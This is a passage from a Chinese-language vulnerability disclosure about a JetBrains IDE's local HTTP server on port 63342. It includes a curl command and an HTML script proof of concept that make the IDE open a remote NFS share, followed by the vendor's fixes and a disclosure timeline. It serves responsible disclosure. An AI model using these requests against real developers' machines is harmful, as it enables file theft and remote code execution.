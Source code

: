 ```
$ curl -v "http://127.0.0.1:63342/api/internal" --data '`{`"url": "jetbrains://whatever/open//net/nfs.example.com/anonshare/testing"`}`'
```



在HTML PoC看到了这个：



```
&lt;script&gt;
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://127.0.0.1:63342/api/internal", true);
xhr.send('`{`"url": "jetbrains://whatever/open//net/nfs.example.com/anonshare/testing"`}`');
&lt;/script&gt;
```



这可能适用于所有使用-hosts的* NIX 式 autofs 挂载点，但是OS X 是我能找到的在默认安装中这样配置autofs的唯一操作系统。

[![](https://p0.ssl.qhimg.com/t0115b4ca42c8439cc8.png)](https://p0.ssl.qhimg.com/t0115b4ca42c8439cc8.png)



**<br>**

**PoC**

· 最小化文件泄露PoC

· Weaponized 文件泄漏 PoC

· WINDOWS和OSX的RCE中没有PoC

<br>

**修复**

· 下面是我知道的JetBrains做出的几点修复措施：

· 发送给本地HTTP服务器的所有请求都需要一个陌生的身份验证包，否则服务器会返回4xx状态代码。

· 疑难CORS策略被完全删除。

· 现在需要验证host标头值，以防止类似漏洞。

<br>

**供应商反响——与供应商的交流**

在这里要感谢Hadi Hariri 及其团队对于我报告的主动回应。在我发出电子邮件后的一小时就收到了回复。

他们发送了补丁给我，以及他们解决方案的二进制构建，并且也接受我在反馈中提到的潜在问题。

<br>

**披露时间轴**



•2016-04-04：发现本地文件泄露问题

•2016-04-06：向供应商提出安全接触请求

